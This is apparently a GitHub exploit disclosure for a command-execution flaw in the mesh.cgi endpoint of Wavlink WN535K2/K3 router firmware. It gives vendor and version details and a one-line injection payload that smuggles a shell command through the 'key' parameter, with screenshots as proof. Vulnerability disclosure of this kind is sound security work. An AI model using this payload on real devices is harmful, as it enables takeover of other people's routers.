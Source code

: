 ###Wavlink mesh.cgi command execution

#### Exploit Title

Wavlink mesh.cgi command execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

/cgi-bin/mesh.cgi?page=upgrade&key=';commend;'



#### Proof of Concept

![image-20220701115253571](./image-20220701115253571.png)

![image-20220701115458499](./image-20220701115458499.png)

![image-20220720095415814](./image-20220720095415814.png)

![image-20220720095441782](./image-20220720095441782.png)